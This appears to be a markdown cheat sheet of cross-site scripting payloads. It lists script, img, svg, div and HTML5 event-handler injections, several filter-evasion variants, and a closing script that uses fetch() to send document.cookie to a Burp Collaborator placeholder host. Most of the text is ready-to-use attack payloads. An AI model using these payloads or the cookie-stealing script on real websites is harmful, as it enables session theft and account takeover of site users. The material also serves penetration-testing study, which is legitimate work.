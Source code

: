 # About

- [XSS Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [PayloadsAllTheThings Repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Scanner Online](https://www.xss-scanner.com/)
- [XSS Scanner Tool](https://github.com/s0md3v/XSStrike)

From version 92 onward (July 20th, 2021), cross-origin iframes are prevented from calling alert(). As these are used to construct some of the more advanced XSS attacks, you'll sometimes need to use an alternative PoC payload. In this scenario, we recommend the print() function.

## Types of XSS attacks
- **Reflected**: Where the malicious script comes from the current HTTP request.
- **Stored**: Where the malicious script comes from the website's database.
- **DOM-BASED**: Where the vulnerability exists in client-side code rather than server-side code.

## XSS in HTML/Applications
### Common Payloads
```javascript
// Basic payload
<script>alert('XSS')</script>
print("<script>alert('XSS')</script>")
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags
```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

## XSS to Stealth Cookies
- Practice this payload here [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)
- XSS Cookie Stealer Tool [Steal Cookies with Reflected XSS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
# OWASP TOP 10 A7:1017
[Link](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))
